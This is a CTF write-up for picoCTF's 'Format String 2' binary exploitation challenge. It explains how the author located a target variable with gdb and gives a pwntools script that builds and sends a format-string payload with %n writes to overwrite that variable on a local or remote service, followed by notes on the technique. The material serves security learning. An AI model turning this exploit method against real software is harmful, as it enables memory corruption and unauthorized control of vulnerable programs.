




# CTF Write-Up: [Format String 2][Binary Exploitation]

## Description
>This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{f0rm47_57r?_f0rm47_m3m_d42f4d8d}`)

## Difficulty
- **Difficulty Level:** [medium]

## Tools Used
- pwntools
- gdb

## Write-Up

### Preparatory Phase
We are given the source code `vuln.c` and notice that in order to access the flag we need to set the `sus` variable to `0x67616c66`


I then ran `checksec vuln` to determine the architecture and potential protection measures the binary has:


I then read the documentation on pwntools, specifically [format strings](#https://docs.pwntools.com/en/stable/fmtstr.html). My main goal at this stage was to write to the address of `sus` the value `0x67616c66.`

Using gdb I was able to run `info address sus` and learn that it is located `0x404060` at .

### Attack Phase

1. Use pwntools to determine the offset and payload.
2. Write to the address `0x404060` the value `0x67616c66`
3. Obtain the solution: 

### Final Solution/Payload
```python
from pwn import *

local = False
host = <insert host>
port = <insert port>
program = './vuln'
context.binary = ELF('./vuln')

if local:
    io = process('./vuln')
else: 
    io = remote(host, port)

def exec_fmt(payload):
    if local:
        io = process('./vuln')
    else: 
        io = remote(host, port)
    io.sendline(payload)
    return io.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
payload = fmtstr_payload(offset, {0x404060: 0x67616c66})
print(payload)

io.recv()
io.sendline(payload)
print(io.recvall())

```

### Lessons Learnt
- Be careful and cognizant of 32-bit and 64-bit architectures as the [calling conventions](https://github.com/kaliypsocraft/something-awesome/blob/main/ANALYSIS.md#calling-conventions) between processors can affect the way we conduct our attacks. This is vital for most binary exploitation exercises.
- pwntools has well established tools to exploit format string vulnerabilities
- Instead of writing `%p|%p|%p...`, once I find the correct offset i.e. the first block of bytes where by it writes `%p%p` directly I just use `%<offset>$<specifier>`.
- `%n` is powerful and can write data into a particular address if exploited. Usually it prints the number of bytes which have been written thus far. The following example stores 3 into the address of the variable test. 
```c
printf("123%n", &test)
```

## References
- https://cs155.stanford.edu/papers/formatstring-1.2.pdf
- https://docs.pwntools.com/en/stable/fmtstr.html


